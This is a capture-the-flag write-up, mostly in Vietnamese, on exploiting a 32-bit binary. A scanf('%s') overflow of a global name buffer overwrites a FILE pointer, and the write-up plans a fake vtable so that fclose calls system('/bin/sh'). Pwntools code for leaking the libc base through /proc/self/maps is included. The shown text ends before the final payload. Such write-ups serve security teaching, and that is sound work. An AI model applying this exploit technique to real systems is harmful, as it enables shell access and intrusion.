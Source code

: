 ### [1] Vulnerability Analysis.

- Bug bài này nằm ở option 5, khi ta thoát chương trình cho t nhập tên vào biến `name` sử dụng %s => `Buffer Overflow` và có thể ghi đè các biến phía sau.

```c
      case 5:
        printf("Leave your name :");
        __isoc99_scanf("%s", name);             // BUG || overflow name [global variable]
                                                //  /* can overwrite fp */
        printf("Thank you %s ,see you next time\n", name);
        if ( fp )
          fclose(fp);
        exit(0);
        return result;
```

- Biến `name` khi tràn sẽ ghi đè lên con trỏ `*fp` của cấu trúc FILE.

```c
.bss:0804B080 ; char filename[64]
.bss:0804B080 filename        db 40h dup(?)           ; DATA XREF: openfile+53↑o
.bss:0804B080                                         ; openfile+6D↑o ...
.bss:0804B0C0                 public magicbuf
.bss:0804B0C0 ; char magicbuf[416]
.bss:0804B0C0 magicbuf        db 1A0h dup(?)          ; DATA XREF: openfile+33↑o
.bss:0804B0C0                                         ; readfile+17↑o ...
.bss:0804B260                 public name
.bss:0804B260 ; char name[32]
.bss:0804B260 name            db 20h dup(?)           ; DATA XREF: main+9F↑o
.bss:0804B260                                         ; main+B4↑o
.bss:0804B280                 public fp
.bss:0804B280 ; FILE *fp
.bss:0804B280 fp              dd ?                    ; DATA XREF: openfile+6↑r
.bss:0804B280                                         ; openfile+AD↑w ...
.bss:0804B280 _bss            ends
```

## C. EXPLOITATION

- Ý tưởng khai thác của bài này là ta fake cấu trúc *vtable của pointer `*fp` và khi option-5 được gọi thì tiến hành gọi `fclose(fp);`. Khi đó hàm fclose sẽ thực sự gọi đến trường `__close` trong cấu trúc `*vtable fake` do chúng ta kiểm soát với đối số là pointer `*fp`. Vậy thì để getshell ta cần:
    + Thực hiện leak libc để lấy địa chỉ hàm `system`.
    + Tạo 1 struc `_IO_FILE_plus fake` - `*fp` fake với struct `*vtable` fake có trường `__close` thực chất là địa chỉ hàm `system` và `*fp` là pointer chỉ tới vùng nhớ chứa chuỗi `"/bin/sh\x00"`.
### [1] Leak LIBC.

- Tiến hành leak libc sử dụng đọc địa chỉ của chương trình được map và lưu ở file `/proc/self/maps`

```python
### get libc base address
openfile(b"/proc/self/maps")
readfile()
readfile()  # libc's entry appears in the second set of 400 characters:

leak = writefile()
leak = leak.split(b"\n")
leak = leak[-1].split(b"-")
libc.address = int(leak[0].decode(), 16)

log.info("Address LIBC base: " + hex(libc.address))
log.info("Address of system: " + hex(libc.symbols["system"]))
```
